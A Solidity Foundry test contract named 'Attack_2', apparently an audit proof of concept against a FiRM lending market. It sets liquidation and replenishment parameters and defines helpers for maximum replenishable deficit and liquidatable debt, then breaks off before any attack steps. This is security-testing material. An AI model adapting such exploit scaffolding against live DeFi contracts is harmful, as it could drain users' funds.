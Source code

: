 ```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../DBR.sol";
import "../Market.sol";
import "./FiRMTest.sol";

contract Attack_2 is FiRMTest {
    address operator;

    function setUp() public {
        vm.label(gov, "operator");
        operator = gov;

        collateralFactorBps = 8500;
        liquidationBonusBps = 1800;
        replenishmentPriceBps = 50000;

        initialize(replenishmentPriceBps, collateralFactorBps, replenishmentIncentiveBps, liquidationBonusBps, callOnDepositCallback);

        vm.startPrank(gov);
        market.setLiquidationFeeBps(100);
        market.setLiquidationFactorBps(5000);
        vm.stopPrank();

        vm.startPrank(chair);
        fed.expansion(IMarket(address(market)), 1_000_000e18);
        vm.stopPrank();
    }


    function getMaxForceReplenishable(address user) public view returns (uint) {
        // once the debt is over the collateral value, getLiquidatableDebt might return more than what are actually in the collateral
        uint256 currentDeficit = dbr.deficitOf(user);
        uint256 limitByCollateralValue = 0;
        if(market.getCollateralValue(user) > market.debts(user))
        {
            limitByCollateralValue = (market.getCollateralValue(user) - market.debts(user)) * 10000 / dbr.replenishmentPriceBps();
        }

        return currentDeficit <= limitByCollateralValue ? currentDeficit : limitByCollateralValue;
    }

    function getMaxLiquidatable(address user) public view returns (uint) {
        // once the debt is over the collateral value, getLiquidatableDebt might return more than what are actually in the collateral

        uint256 limitByLiquidationFactor = market.getLiquidatableDebt(user);
        uint256 limitByLiquidationReward = market.getCollateralValue(user) * 10000 / (10000 + market.liquidationFeeBps() + market.liquidationIncentiveBps());

        return limitByLiquidationFactor >= limitByLiquidationReward ? limitByLiquidationReward : limitByLiquidationFactor;
    }

    function userTotalValue(address user) public view returns (uint256) {
        uint P = ethFeed.latestAnswer() / 1e18;
        uint256 totalValue = DOLA.balanceOf(user) / P + WETH.balanceOf(user);
```
